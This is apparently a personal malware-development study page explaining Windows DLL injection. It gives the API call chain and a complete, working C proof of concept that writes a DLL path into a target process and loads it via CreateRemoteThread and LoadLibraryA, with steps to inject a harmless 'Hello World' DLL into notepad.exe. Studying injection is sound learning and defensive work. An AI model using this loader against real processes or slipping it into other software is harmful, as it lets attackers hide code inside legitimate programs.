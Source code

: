 ```yaml
---
description: 06-21-2023
---
```


# 📚 DLL Injection

## What is DLL Injection?

A process injection technique that <mark style="color:yellow;">allows a malicious actor to be able to inject arbitrary code into another process</mark>.&#x20;

The malware <mark style="color:yellow;">writes the path to it's malicious DLL in the virtual address space of a legit process</mark> using [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). This function will write data to an area of memory in a specified process.

It will then <mark style="color:yellow;">ensure the remote process loads it by creating a remote thread in the target process</mark>. This is performed via [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

## High Level Explanation

Targeted Program.exe (victim) -> [OpenProcess()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) -> [GetProcAddress()](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) -> [VirtualAllocEx()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) -> [WriteProcessMemory()](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) -> [CreateRemoteThread()](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

1. <mark style="color:green;">Open/Create</mark> a process for injection
2. <mark style="color:green;">Allocate</mark> memory for the process
3. <mark style="color:green;">Write</mark> DLL's path to the region of allocated memory
4. <mark style="color:green;">Call</mark> <mark style="color:yellow;">LoadLibraryA</mark>/<mark style="color:yellow;">W</mark>/<mark style="color:yellow;">CreateRemoteThread()</mark> inside the remote process with the DLL path.

## PoC

{% embed url="https://github.com/0xXyc/maldev/blob/main/winAPI/dll-injection/inject-dll.c" %}

This program requires the usage of a single command line argument that will take an valid PID.&#x20;

Check task manager to target a specific process. This current build works on a Windows 11 machine, targetting a x64 executable, and utilizes a 64 bit DLL as of the time of this writing.

#### Instructions:

1. For example, start notepad
2. Right-click inside of task manager and select "Go to details"
3. Look for the PID of notepad.exe
4. Run the syntax below replacing \<PID> with the PID of notepad.exe

#### Syntax:

```
./inject-dll.exe <PID>
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Notice how the Hello World messagebox appears in the same tab as notepad.exe on your taskbar:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Proving our messagebox was successfully injected into notepad.exe</p></figcaption></figure>

inject-dll.c:

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    HANDLE processHandle;
    HANDLE threadHandle;
    PVOID remoteBuffer;
    LPCSTR dllPath = "C:\\testcode\\hello-world-x64.dll";
    SIZE_T dllPathLength = strlen(dllPath) + 1;
    PTHREAD_START_ROUTINE threatStartRoutineAddress;

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if(!processHandle)
    {
        printf("OpenProcess Failed: %d\n", GetLastError());
        return 0;
    }

    remoteBuffer = VirtualAllocEx(processHandle, NULL, dllPathLength, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if(!remoteBuffer)
    {
        printf("VirtualAllocEx Failed: %d\n", GetLastError());
        return 0;
    }

    if(!WriteProcessMemory(processHandle, remoteBuffer, dllPath, dllPathLength, NULL))
    {
        printf("WriteProcessMemory Failed: %d\n", GetLastError());
        return 0;
    }

    threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
    threadHandle = CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    if(!threadHandle)
    {
        printf("Remote thread failed. %d\n", GetLastError());
        return 0;
    }

    printf("Success\n");

    CloseHandle(threadHandle);
    CloseHandle(processHandle);

    return 0;
}
```

#### DLL:

{% embed url="https://github.com/carterjones/hello-world-dll/releases/tag/v1.0.0" %}

To Do:&#x20;

* I need to learn how to write my own DLL's
